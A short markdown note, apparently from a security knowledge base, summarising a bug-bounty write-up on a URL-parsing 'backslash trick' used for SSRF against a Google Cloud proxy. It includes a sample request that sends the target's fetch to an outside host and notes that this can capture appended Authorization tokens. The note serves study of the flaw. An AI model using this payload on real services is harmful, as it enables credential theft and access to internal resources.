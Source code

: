 ```yaml
---
publish: true
---
```

# URL Backslash Trick

Summarised from [Fixing the Unfixable: Story of a Google Cloud SSRF](https://bugs.xdavidhu.me/google/2021/12/31/fixing-the-unfixable-story-of-a-google-cloud-ssrf/)

> In short, the _backslash-trick_ relies on exploiting a minor difference between two “URL” specifications: the [WHATWG URL Standard](https://url.spec.whatwg.org/#url-parsing), and [RFC3986](https://datatracker.ietf.org/doc/html/rfc3986#appendix-B). RFC3986 is a generic, multi-purpose specification for the syntax of _Uniform Resource Identifiers_, while the WHATWG URL Standard is specifically aimed at the Web, and at URLs (which are a subset of URIs). Modern browsers implement the WHATWG URL Standard.

![](https://bugs.xdavidhu.me/assets/posts/2021-12-30-fixing-the-unfixable-story-of-a-google-cloud-ssrf/spec_difference.jpg)

Example: 

```http
GET /proxy?url=https://sfmnev.vps.xdavidhu.me\@jobs.googleapis.com/ HTTP/1.1
Host: cxl-services.appspot.com
```

```http
HTTP/1.1 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: *
Content-Type: text/plain; charset=utf-8
X-Cloud-Trace-Context: fa8cf39a9e7d74e14772efe215f180c1
Date: Mon, 23 Mar 2020 21:28:07 GMT
Server: Google Frontend
Content-Length: 35

Hello from xdavidhu's webserver! :)
```

![](https://bugs.xdavidhu.me/assets/posts/2021-12-30-fixing-the-unfixable-story-of-a-google-cloud-ssrf/exploit.jpg)

> Setting my simple [Python HTTPS server](https://gist.github.com/xdavidhu/9491a9918b4dfbaffb789a8b9f2d1672)into `--verbose` mode, and making `cxl-services` request it once again allowed me to see the whole request going to my webserver, including all of the headers

Once a server is tricked into making a request to your server, you can see what it is appending such as Authorization headers.

Such a token may be able to access other internal resources.